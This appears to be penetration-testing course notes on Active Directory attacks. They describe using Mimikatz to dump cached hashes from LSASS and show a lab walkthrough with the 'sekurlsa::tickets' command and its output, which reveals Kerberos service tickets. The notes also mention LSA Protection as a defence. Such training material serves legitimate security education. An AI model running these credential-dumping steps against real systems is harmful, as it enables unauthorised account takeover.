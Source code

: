 The output above shows all credential information stored in LSASS for the domain users _jeff_ and _dave_, including cached hashes
+ An effective defensive technique to prevent tools such as Mimikatz from extracting hashes is to enable additional _LSA Protection_
+ The LSA includes the LSASS process
+ By setting a registry key, Windows prevents reading memory from this process
+ We'll discuss how to bypass this and other powerful defensive mechanisms in-depth in OffSec's _Evasion Techniques and Breaching Defenses_ course, PEN-300

We can observe two types of hashes highlighted in the output above. This will vary based on the functional level of the AD implementation
+ For AD instances at a functional level of Windows 2003, NTLM is the only available hashing algorithm
+ For instances running Windows Server 2008 or later, both NTLM and SHA-1 (a common companion for AES encryption) may be available
+ On older operating systems like Windows 7, or operating systems that have it manually set, **WDigest** will be enabled
+ When WDigest is enabled, running Mimikatz will reveal cleartext passwords alongside the password hashes


Armed with these hashes, we could attempt to crack them and obtain the cleartext password as we did in _Password Attacks_
+ A different approach and use of Mimikatz is to exploit Kerberos authentication by abusing TGT and service tickets
+ As already discussed, we know that Kerberos TGT and service tickets for users currently logged on to the local machine are stored for future use
+ These tickets are also stored in LSASS, and we can use Mimikatz to interact with and retrieve our own tickets as well as the tickets of other local users

Let's open a second PowerShell window and list the contents of the SMB share on WEB04 with UNC path **`\\web04.corp.com\backup`**
+ This will create and cache a service ticket
```
PS C:\Users\jeff> dir \\web04.corp.com\backup


    Directory: \\web04.corp.com\backup


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/13/2022   2:52 AM              0 backup_schemata.txt
```

Once we've executed the directory listing on the SMB share, we can use Mimikatz to show the tickets that are stored in memory by entering **`sekurlsa::tickets`**
```
mimikatz # sekurlsa::tickets

Authentication Id : 0 ; 656588 (00000000:000a04cc)
Session           : RemoteInteractive from 2
User Name         : jeff
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/13/2022 2:43:31 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1105

         * Username : jeff
         * Domain   : CORP.COM
         * Password : (null)

        Group 0 - Ticket Granting Service
         [00000000]
           Start/End/MaxRenew: 9/13/2022 2:59:47 AM ; 9/13/2022 12:43:56 PM ; 9/20/2022 2:43:56 AM
           Service Name (02) : cifs ; web04.corp.com ; @ CORP.COM
```